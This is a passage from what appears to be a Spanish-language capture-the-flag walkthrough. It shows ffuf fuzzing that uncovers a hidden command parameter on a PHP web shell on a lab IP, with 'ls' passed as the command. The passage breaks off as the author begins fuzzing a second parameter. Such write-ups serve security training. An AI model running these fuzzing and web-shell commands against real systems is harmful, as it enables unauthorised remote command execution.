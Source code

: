 Ya con la contraseña entramos al archivo que basicamente se abre con un excel o con la version de libreoffice

El archivo nos deja ver un nuevo path

![](img/arroutada1.png)

Entrando a la pagina con /thebasshell.php nos da una pagina en blanco.
Viendo bien la imagen nos dice que odia mucho hacer fuzzing. Asi que tenemos que fuzzear a ver si encontramos algo.

```
❯ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u 'http://10.0.2.16/thejabasshell.php?FUZZ=ls' -fs 0

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.0.2.16/thejabasshell.php?FUZZ=ls
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

a                       [Status: 200, Size: 33, Words: 5, Lines: 1, Duration: 0ms]
```

Bueno viendo la pagina /thejabasshell.php?a=ls no suelta un error y dice:
- Error: Problem with parameter "b"

Visualizando esto nos damos cuenta que existe un nuevo parametro "b"

Volvemos a fuzzear ahora con el parametro de b
```
❯ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u 'http://10.0.2.16/thejabasshell.php?a=ls&b=FUZZ' -fs 33

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

```